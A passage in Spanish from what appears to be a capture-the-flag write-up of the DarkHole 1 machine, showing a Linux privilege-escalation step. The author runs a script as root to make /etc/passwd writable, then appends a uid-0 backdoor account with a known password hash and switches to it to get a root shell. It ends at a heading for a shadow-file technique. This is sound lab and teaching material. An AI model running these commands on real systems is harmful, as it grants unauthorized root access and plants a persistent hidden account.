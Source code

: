 Ahora ejecuto file.py como usuario root

```sh
sudo -u root /usr/bin/python3 /home/john/file.py
```

Compruebo que el fichero `/etc/passwd` ahora tiene permisos completos.

![alt text](../assets/images/darkhole1/image-50.png)

A continuacion añado al usuario `ibl4zqu3z` con clave `123` en el fichero `/etc/passwd` con permisos de root sobre /bin/bash

```sh
echo 'ibl4zqu3z:$1$UcH1bqbq$q2aTjHzGSqyXJxsE92LRw1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

![alt text](../assets/images/darkhole1/image-51.png)

Esto me permite que al cambiar al usuario `ibl4zqu3z` en la maquina haga un login con permisos de root desde el usuario john.

![alt text](../assets/images/darkhole1/image-53.png)

#### Escalada de privilegios a root – Tecnica # 03 – SHADOW file
